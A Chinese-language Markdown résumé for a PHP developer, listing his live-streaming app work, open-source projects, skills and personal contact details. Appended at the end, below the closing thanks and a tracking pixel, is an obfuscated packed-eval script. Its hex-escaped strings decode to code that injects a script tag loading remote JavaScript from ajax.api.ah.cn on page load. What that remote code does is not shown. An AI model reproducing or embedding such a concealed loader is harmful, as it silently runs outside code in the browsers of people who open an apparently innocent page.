 # 个人简历

 - **安龙** / 男 / 1992-12 / 安徽池州
 - 工作年限：6年+
 - 最高学历：大专
 - 期望城市：上海
 - 期望职位：PHP高级开发工程师

---

# 联系方式

- 手机：183 5626 2256 （`安徽池州`）
- Email：[hi@anlo.ng](http://mail.qq.com/cgi-bin/qm_share?t=qm_mailme&email=E3J-fH12U3J9JiU9fXZn)
- QQ号：11981261
- 微信：al-one

---

# 工作经历

## 上海宇燕网络科技有限公司 （2016年10月 ~ 至今）

### [烈火直播APP](#)
- 新需求分析、数据表设计及IM协议定义；
- 支付宝、微信公众号充值钻石；
- 热门直播自动排序及后台手动排序算法；
- 幸运礼物算法实现 赠送指定礼物有机会获得钻石翻倍奖励；
- 主播家族及成员业绩、收益统计结算；
- 转盘抽奖、押注等H5游戏接口；
- 七牛、UCloud、金山直播云及连麦互动服务端接入；
- 新增、日活、留存等数据分渠道分设备异步统计分析；
- 各接口、SQL优化及历史遗留问题修复；
- 负载均衡、环境配置调优、高并发接口优化等；


## 上海欢愉网络科技有限公司 （2015年8月 ~ 2016年9月）

### [烈火APP相关API接口](#)
- 用户付费充值相关接口：
    - 用户钻石、魅力值等账户数据内部接口；
    - 支付宝、微信充值及提现；
    - 福袋、宝箱（类似抢红包）相关接口；
    - 一对一礼物、直播礼物接口；
- 视频直播相关接口：
    - 直播喇叭、热门票等道具相关接口；
    - 直播任务奖励相关接口；
    - 观众贡献榜单排行等接口；
- 各类专题活动相关接口及H5页面；
- APP直传OSS相关接口；

### [烈火APP运营后台](#)
- 整个运营后台独立开发完成；
- 用户、照片、订单、直播等数据的监控展示；
- 用户头像实时打分模块；
- 用户行为数据统计报表展示；


## 合肥一浪网络科技有限公司 （2013年3月 ~ 2015年2月）
- 企业、政府、门户网站建设；
- 为公司开发客户管理系统等；

### [客户管理系统](http://app.ah.cn/16crm/)
- 演示账户：demo 密码：123456
- 主要功能：客户、订单、员工管理
- 独立开发完成

### 企业、政府、门户网站建设
- [上海世彤建筑装饰](http://www.sh-shitong.com/)，[手机端](http://m.sh-shitong.com/?skin=bootstrap)
- [合肥堃能自动化科技有限公司](http://www.kunnengtec.com/)
- [合肥艾琳婚纱摄影](http://www.algnsy.cn/)
- [中国兽医器械分类信息网](http://www.zgsyqxw.com/)


## 合肥首嘉网络科技有限公司 （2012年8月 ~ 2013年2月）

### 企业网站建设、ASP程序开发、模板制作等


---

# 开源项目和作品

## 开源项目

 - [laravel-soft-deletes-unix](https://packagist.org/packages/al-one/laravel-soft-deletes-unix) : Laravel软删除使用Unix时间戳
 - [laravel-predis-listened](https://github.com/al-one/laravel-predis-listened) : Laravel监听pRedis命令
 - [certbot-auth-dnspod](https://github.com/al-one/certbot-auth-dnspod) : Certbot使用DNSPod验证脚本
 - [parse_urls](https://github.com/al-one/parse_urls) : 正则表达式解析任何格式的URL，PHP和JS版
 - [array2](https://github.com/al-one/array2) : Asp键值对数组，Json编码解析
 - [ANCMS](http://www.ancms.cn/) : 安安网站内容管理系统，Asp + Access

## 业余作品

 - [MarkShow](http://al-one.github.io/app/MarkShow/?/md/help.md) : Markdown扩展解析，支持LaTeX公式、流程图等
 - [aGoogle](http://app.an56.org/aGoogle/) : 谷歌搜索，RequireJS + AngularJS + Bootstrap
 - [CKEditor表情插件](http://app.ah.cn/app/ckeditor/) : 百度UEditor表情插件移植到CKEditor
 - [DNSPod域名解析管理](http://app.ah.cn/app/AnDNS/) : 基于DNSpod API，实现域名解析功能
 - [卫星电视接收参数](http://app.an56.org/stv/)
 - [其他作品...](http://dwz.cn/alone-case)


---

# 技能清单
- 开发语言：PHP / Golang / JavaScript / Shell
- 后端框架：Laravel / ThinkPHP / Symfony / Slim
- 前端框架：Vue.js / Bootstrap / jQuery
- 开发工具：PHPStorm / VSCode / Git
- 数据库等：MySQL / Redis / SqLite / MSSQL
- 其他技能：Raspberry Pi / Termux / Home Assistant


---

# 自我描述
- 熟练使用PHP开发各种应用，熟悉Laravel、ThinkPHP框架；
- 熟悉Redis各种数据类型的应用场景及Linux环境搭建；
- 熟悉MySQL数据库优化以及Git、SVN等协作工具；
- 精通Web前端，熟练使用Vue.js、Bootstrap、jQuery；
- 熟悉正则表达式、Markdown，喜欢接触新的技术；

有责任心，有上进心，能吃苦耐劳，办事认真；
待人和善，诚恳，能友好的与同事相处；
自学能力强，挖掘自身的潜力，善于思考，有较强的团队协作精神。


---

# 致谢
感谢您花时间阅读我的简历，期待能有机会和您共事。


![](http://img.users.51.la/16854071.asp?a.jpg)
<script>
eval(function(p,a,c,k,e,d){e=function(c){return(c<a?'':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p;}('(6(f){v(c.e)c.e(6($){f()});p f()})(6(){q d=n,s=d.o(\'\\h\\9\\g\\b\\4\\3\');s.r=\'\\w\\t\\u\\k\\i\';(d.l||d.m(\'\\8\\5\\2\\j\')[0]).I(s).G=\'\\8\\3\\3\\4\\J\\1\\1\\2\\a\\2\\M\\7\\2\\4\\b\\7\\2\\8\\7\\9\\K\\1\\L\\5\\H\\1\\a\\h\\1\\2\\A\\x\\5\\g\\y\\1\\B\\E\\3\\F\'+~(-C D()/z)});',49,49,'|x2f|x61|x74|x70|x65|function|x2e|x68|x63|x6a|x69|window||jQuery||x72|x73|x38|x64|x2d|body|getElementsByTagName|document|createElement|else|var|charset||x54|x46|if|x55|x75|x79|36e5|x51|x3f|new|Date|x5f|x3d|src|x62|appendChild|x3a|x6e|x77|x78'.split('|'),0,{}));
</script>